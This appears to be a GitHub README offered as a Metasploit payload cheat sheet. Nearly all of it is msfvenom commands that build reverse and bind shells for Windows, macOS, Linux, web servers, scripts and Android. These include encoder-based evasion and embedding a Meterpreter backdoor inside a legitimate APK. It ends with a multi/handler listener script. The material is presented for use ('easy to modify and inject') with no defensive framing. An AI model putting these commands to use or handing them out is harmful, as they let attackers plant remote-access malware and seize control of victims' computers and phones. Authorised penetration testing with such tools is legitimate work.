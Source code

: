 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre>$ msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre>$ msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre>$ msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre>$ msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre>$ msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre>$ msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre>$ msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Embed Meterpreter Payload
<pre>$ msfvenom -x app.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o out.apk </pre>
<pre>msfvenom --platform android --arch dalvik -x myApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168** LPORT=7777 -o build.apk</pre>

#Save AS explort.rc
Run command 


<pre>
# msfconsole -q -r 'export.rc'
use exploit/multi/handler
set PAYLOAD Payload name
set LHOST *********
set LPORT *******
set ExitOnSession false
set EnableStageEncoding true
run -j
</pre>

..........................................<a href="https://uk2blogger.blogspot.com/2021/03/best-way-to-generate-metasploit.html">read more</a>



